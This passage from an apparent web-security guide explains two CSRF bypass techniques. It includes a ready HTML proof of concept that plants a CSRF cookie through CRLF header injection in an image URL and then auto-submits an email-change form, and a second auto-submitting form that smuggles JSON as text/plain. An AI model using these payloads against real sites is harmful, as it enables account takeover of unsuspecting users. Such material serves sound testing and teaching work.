 ### CSRF token is verified by a cookie

Applications may implement CSRF protection by duplicating the token in both a cookie and a request parameter or by setting a CSRF cookie and verifying if the token sent in the backend corresponds to the cookie. The application validates requests by checking if the token in the request parameter aligns with the value in the cookie.

However, this method is vulnerable to CSRF attacks if the website has flaws allowing an attacker to set a CSRF cookie in the victim's browser, such as a CRLF vulnerability. The attacker can exploit this by loading a deceptive image that sets the cookie, followed by initiating the CSRF attack.

Below is an example of how an attack could be structured:

```html
<html>
  <!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
  </body>
</html>

```

{% hint style="info" %}
Note that if the **csrf token is related with the session cookie this attack won't work** because you will need to set the victim your session, and therefore you will be attacking yourself.
{% endhint %}

### Content-Type change

According to [**this**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests), in order to **avoid preflight** requests using **POST** method these are the allowed Content-Type values:

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

However, note that the **severs logic may vary** depending on the **Content-Type** used so you should try the values mentioned and others like **`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._

Example (from [here](https://brycec.me/posts/corctf\_2021\_challenges)) of sending JSON data as text/plain:

```html
<html>
  <body>
    <form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
      <input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
    </form>
    <script>
        form.submit();
    </script>
  </body>
</html>
```
